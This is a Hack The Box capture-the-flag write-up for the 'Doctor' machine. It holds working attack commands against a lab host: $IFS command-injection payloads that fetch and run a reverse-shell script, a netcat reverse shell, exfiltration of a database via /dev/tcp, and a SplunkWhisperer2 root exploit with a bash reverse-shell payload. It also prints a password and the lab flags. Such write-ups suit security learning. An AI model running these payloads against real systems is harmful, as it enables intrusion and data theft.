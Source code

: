```yaml
---
title: "Doctor from HTB"
categories: [Hack The Box]
tags: [Hack The Box]
---
```

# Doctor from HTB

After `nmap` scan we discover that except `22 and 80` ports there is also `8089` port open.
First check `80` port which has some static site and has nothing much.
add this to `/etc/hosts`
```
10.10.10.209 doctors.htb
```
And after adding this and visiting `doctors.htb` we are in `login` page.
`signup` and then `login`
there is only `New message` which maybe we will need to do something.
Checking the `wappalyzer` it runs `Flask 1.0.1`
[](/assets/images/2024-09-08_15-12-00.png)
So maybe we have to do `SSTI` let's check with `{{7}}` if it returns `49` then it is `SSTI` vulnerable and we can get `reverse shell`. It didn't work.
Now start `python -m http.server 80` and type your `tun0` into content. After typing post it and we can see that it connected to us, so we have to execute commands like that.
```
title=test&content=http://10.10.16.11/$(whoami)&submit=post
```
This payload showed me this
```
10.10.10.209 - - [08/Sep/2024 15:41:56] "GET /web HTTP/1.1" 404 -
```
So it is `web` user that connects to us.
```
title=test&content=http://10.10.16.11/$(echo$IFS'help')&submit=Post
```
returned
```
10.10.10.209 - - [08/Sep/2024 15:46:21] "GET /help HTTP/1.1" 404 -
```
so we can't use much special characters.
Now we have to upload `reverse shell` file and then execute it
```bash
title=test&content=http://10.10.16.11/$(curl$IFS'http://10.10.16.11/reverse.sh'$IFS'-o'$IFS'/var/www/html/reverse.sh')&submit=Post
```
then
```bash
title=test&content=http://10.10.16.11/$(bash$IFS'/var/www/html/reverse')&submit=Post
```
And i got connection
```bash
rlwrap nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.10.16.11] from (UNKNOWN) [10.10.10.209] 50992
bash: cannot set terminal process group (841): Inappropriate ioctl for device
bash: no job control in this shell
web@doctor:~$
```
Exploring we find `site.db`
```bash
web@doctor:~/blog/flaskblog$ file site.db
file site.db
site.db: SQLite 3.x database, last written using SQLite version 3032003
```
there is no `sqlite3` on machine so we have to download it on our local PC and see what is going in there.
Set up `netcat` on some port and redirect everything it gets to some file
```bash
nc -nlvp 1235 > site.db
listening on [any] 1235 ...
```
Now on machine forward site.db
```bash
web@doctor:~/blog/flaskblog$ cat site.db > /dev/tcp/10.10.16.11/1235
cat site.db > /dev/tcp/10.10.16.11/1235
```
Now read the file
```bash
sqlite3 site.db .dump
PRAGMA foreign_keys=OFF;
BEGIN TRANSACTION;
CREATE TABLE user (
	id INTEGER NOT NULL,
	username VARCHAR(20) NOT NULL,
	email VARCHAR(120) NOT NULL,
	image_file VARCHAR(20) NOT NULL,
	password VARCHAR(60) NOT NULL,
	PRIMARY KEY (id),
	UNIQUE (username),
	UNIQUE (email)
);
INSERT INTO user VALUES(1,'admin','admin@doctor.htb','default.gif','$2b$12$Tg2b8u/elwAyfQOvqvxJgOTcsbnkFANIDdv6jVXmxiWsg4IznjI0S');
CREATE TABLE post (
	id INTEGER NOT NULL,
	title VARCHAR(100) NOT NULL,
	date_posted DATETIME NOT NULL,
	content TEXT NOT NULL,
	user_id INTEGER NOT NULL,
	PRIMARY KEY (id),
	FOREIGN KEY(user_id) REFERENCES user (id)
);
INSERT INTO post VALUES(1,'Doctor blog','2020-09-18 20:48:37.55555','A free blog to share medical knowledge. Be kind!',1);
COMMIT;
```
There is an hashed password for `admin` which i guess will not be `root` password.
it is an `bcrypt` so it will take forever to crack so leave it alone.
checking the `id` command we see that we are part of `adm` group so we can read `logs`
```bash
web@doctor:/var/log/apache2$ ls
ls
access.log        access.log.5.gz  error.log.10.gz  error.log.5.gz
access.log.1      access.log.6.gz  error.log.11.gz  error.log.6.gz
access.log.10.gz  access.log.7.gz  error.log.12.gz  error.log.7.gz
access.log.11.gz  access.log.8.gz  error.log.13.gz  error.log.8.gz
access.log.12.gz  access.log.9.gz  error.log.14.gz  error.log.9.gz
access.log.2.gz   backup           error.log.2.gz   other_vhosts_access.log
access.log.3.gz   error.log        error.log.3.gz
access.log.4.gz   error.log.1      error.log.4.gz
```
let's read backup and with `CTRL+f` search for word password maybe we can find it.
I found `10.10.14.4 - - [05/Sep/2020:11:17:34 +2000] "POST /reset_password?email=Guitar123" 50..`
As it seems it is password for `shaun` so switch to that user
User Flag is:
```
4baad6e4e8863cd4826567f013e8d8d7
```
User `shaun`-s credentials can be used to login on `8089` port, which runs on `splunk build 8.0.5`. Searching `splunk RCE` i found `splunkwhisperer2` so lets download it and execute.
```bash
git clone https://github.com/cnotin/SplunkWhisperer2.git
/home/giorgi/Desktop/codes/SplunkWhisperer2/PySplunkWhisperer2/PySplunkWhisperer2_remote.py

python3 PySplunkWhisperer2_remote.py
usage: PySplunkWhisperer2_remote.py [-h] [--scheme SCHEME] --host HOST [--port PORT]
                                    --lhost LHOST [--lport LPORT] [--username USERNAME]
                                    [--password PASSWORD] [--payload PAYLOAD]
                                    [--payload-file PAYLOAD_FILE]
PySplunkWhisperer2_remote.py: error: the following arguments are required: --host, --lhost
```
Write everything we know and also open another `netcat` listener
```python
python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --port 8089 --lhost 10.10.16.11 --lport 9001 --username shaun --password Guitar123 --payload "bash -c 'bash -i >& /dev/tcp/10.10.16.11/9002 0>&1'"
Running in remote mode (Remote Code Execution)
[.] Authenticating...
[+] Authenticated
[.] Creating malicious app bundle...
[+] Created malicious app bundle in: /tmp/tmpzcm8d2g1.tar
[+] Started HTTP server for remote mode
[.] Installing app from: http://10.10.16.11:9001/
10.10.10.209 - - [08/Sep/2024 16:56:12] "GET / HTTP/1.1" 200 -
[+] App installed, your code should be running now!
```
Check `netcat` and you should have connection
```bash
rlwrap nc -nvlp 9002
listening on [any] 9002 ...
connect to [10.10.16.11] from (UNKNOWN) [10.10.10.209] 56558
bash: cannot set terminal process group (1138): Inappropriate ioctl for device
bash: no job control in this shell
root@doctor:/#
```
Root Flag is:
```
9375c052f2db21175dd11ed91f2f8368
```
![](assets/images/2024-09-08_16-58-27.png)
